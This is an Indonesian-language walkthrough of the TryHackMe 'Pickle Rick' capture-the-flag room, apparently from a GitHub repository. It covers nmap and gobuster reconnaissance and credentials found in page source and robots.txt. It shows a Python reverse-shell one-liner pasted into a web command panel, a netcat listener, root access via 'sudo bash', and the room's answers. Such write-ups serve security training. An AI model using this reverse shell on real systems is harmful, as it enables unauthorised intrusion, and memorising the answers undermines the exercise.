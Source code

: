 # CTF - Pickle Rick
- TryHackMe Challenge: https://tryhackme.com/room/picklerick
- IP Machine: 10.10.172.106

# Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 19:44 EDT
Nmap scan report for 10.10.172.106
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6bbf9e8176b483c616e7fe7b3dc6ad2 (RSA)
|   256 9d8527a53623d37ba397cb9f308841ae (ECDSA)
|_  256 cc423adf1180534d8445e1357c2cac92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/29%OT=22%CT=1%CU=36558%PV=Y%DS=2%DC=T%G=Y%TM=64C5A47
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%II=I%TS=8)SEQ(SP=1
OS:04%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   193.06 ms 10.8.0.1
2   195.02 ms 10.10.172.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.35 seconds
```

## Gobuster
- Baris perintah: `gobuster dir -u http://<IP Machine> -w <wordlists>`

## Content Discovery
- Buka halaman web `http://<IP_machine>` di browser

- Tekan **Ctrl+U** atau klik kanan pada halaman lalu pilih **View Page Source** untuk menampilkan source code halaman. Disini ditemukan informasi bahwa usernamenya adalah **R1ckRul3s**

- Buka halaman `http://<IP_machine>/robots.txt` di tab baru. Disini ditemukan sebuah password


```sh
username: R1ckRul3s
password: Wubbalubbadubdub
```

## Gain Access
- Lakukan login ke halaman `http://<IP_machine>/login.php` dengan username dan password yang ditemukan diatas

- Jika kita ketik `ls` lalu tekan Execute maka diperoleh daftar file sebagai berikut


- Jika kita ketik `cat Sup3rS3cretPick13Ingred.txt` lalu tekan Execute maka muncul pesan bahwa perintah tersebut telah di block 



- Gunakan Payload berikut untuk masuk ke server. Ganti **10.8.142.62** dengan IP tun0 pada komputer yang anda gunakan
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.142.62",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```
- Buka terminal dan jalankan netcat dengan printah `nc -lnvp <port>` 

- Copy payload dan paste ke halaman `http://<IP_machine>/portal.php` lalu tekan Execute

- Netcat berhasil terkoneksi dan masuk sebagai user **www-data**

- Disini kita bisa membaca file **Sup3rS3cretPick13Ingred.txt** dengan perintah `cat Sup3rS3cretPick13Ingred.txt` yang sebelumnya diblock

- Di directory **/home** ditemukan home directory **rick**. Navigasi ke directory **/home/rick** dan disana ditemukan file **second ingredients**. Buka file tersebut dengan perintah `cat 'second ingredients'` 

## Privilege Escalation
- Untuk menemukan final ingredient diperlukan akses user root. Jalankan 2 baris perintah ini untuk memperoleh akses user root

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo bash
```

- Setelah berhasil masuk ke user root, navigasi ke directory **/root** maka disini ditemukan file **3rd.txt** yang berisi final ingredient. Buka file tersebut dengan perintah `cat 3rd.txt`

## Pertanyaan dan Jawaban:

- **Pertanyaan:** What is the first ingredient that Rick needs?
```sh
mr. meeseek hair
```

- **Pertanyaan:** What is the second ingredient in Rick’s potion?
```sh
1 jerry tear
```

- **Pertanyaan:** What is the last and final ingredient?
```sh
fleeb juice
```